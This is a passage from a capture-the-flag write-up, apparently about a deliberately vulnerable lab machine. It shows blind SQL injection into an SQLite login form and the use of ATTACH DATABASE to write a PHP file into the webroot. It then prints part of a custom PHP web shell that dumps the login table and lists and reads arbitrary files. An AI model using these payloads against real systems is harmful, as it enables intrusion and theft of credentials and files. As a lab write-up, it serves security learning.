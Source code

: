 ## Stage 2

![image](https://i.imgur.com/joaBvqT.png)

Whatever I enter here just goes somewhere without any feedback. This is completely blind and will be a bit of a challenge.

While I was unaware of the bug I mentioned earier, I ended up entering a lot of different characters into the login form. An interesting response comes when you enter `'` for the username with any pass: `unrecognized token: "3590cb8af0bbb9e78c343b52b93773c9"`. This is the md5 of the password. Using a number like `1` for the password with `'` as the username gives this error `near "c4ca4238a0b923820dcc509a6f75849b": syntax error` These errors indicate that this is in fact a SQLite DB. This information will help me with the admin console as I now know what I am working with. This also confirms my earlier suspicion about what the query looks like.

One useful feature of SQLite that I can exploit in this case, is its ability to create files on disk. To leverage this, I need to find is a folder where I have permission to write files to. I ran `dirbuster` again and now have a few directories to try

![image](https://i.imgur.com/zlFz06Y.png)

In order to create a file with SQLite I need to attach the file in question as a database. So I set about running commands like this

```sourceCode
attach database '/home/devnull/public_html/test.php' as db;
drop table if exists db.test;
create table db.test(payload text);
insert into db.test(payload) values('<?php phpinfo(); ?>');
```

From the Apache config I downloaded at the start, I know that the webroot is `/home/devnull/public_html`, so any directories I got back from dirbuster will be a subdirectory of that. I try all the folders until I got a hit with the `img` directory. So I've got a place to create files, but the bad news is that `exec`, `eval`, and its ilk are disabled. This means no simple php shell. Boooo.

Not to worry, I got this. I knocked up a quick PHP script to do some work for me

```php
if ($_GET["cmd"] == "db") {
    $dbhandler=new SQLite3("/home/devnull/database/888-darknet.db");

    $query = $dbhandler->query("SELECT * FROM login");

    while($result=$query->fetchArray()){
        print_r($result);
        print "<br/>";
    }
}

if ($_GET["cmd"] == "ls") {
    $path = $_GET["arg"];
    @chdir($path);
    $dir = @dir($path);
    while($d = $dir->read()) {
        print $d."<br/>";
    }
}
if ($_GET["cmd"] == "cat") {
    $file = $_GET["arg"];
    $fh = fopen($file, "r");
    if ($fh) {
        while ($l = fgets($fh)) {
            print htmlspecialchars($l)."<br/>";
        }
        fclose($fh);
```